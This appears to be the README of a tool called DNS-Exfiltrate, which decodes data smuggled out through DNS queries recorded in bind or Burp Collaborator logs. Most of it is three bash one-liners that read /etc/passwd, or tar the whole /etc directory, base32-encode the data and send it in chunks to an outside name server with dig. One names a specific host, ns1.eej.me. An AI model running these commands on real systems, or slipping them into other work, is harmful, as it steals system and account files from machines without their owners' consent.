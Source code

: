 # DNS-Exfiltrate

Parses bind query or Private Burp Collaborator logs to exfiltrate data. Note that you will get more reliable results by specifying the name server via `dig @`...

Use cases (bash):

Exfiltrate a file:
```
cat /etc/passwd | base32 -w 63 |tr -d = | while read a; do dig @<DNS Server> $a.<DNS Server>; done;
```

Exfiltrate a compressed file:

```
cat /etc/passwd | gzip - | base32 -w 63 |tr -d = | while read a; do dig @<DNS Server> $a.<DNS Server>; done;
```

Exfiltrate a compressed tar archive of a directory:

```
tar czf - /etc | base32 -w 63 |tr -d =| while read a; do dig @ns1.eej.me $a.e.ns1.eej.me; done;
```
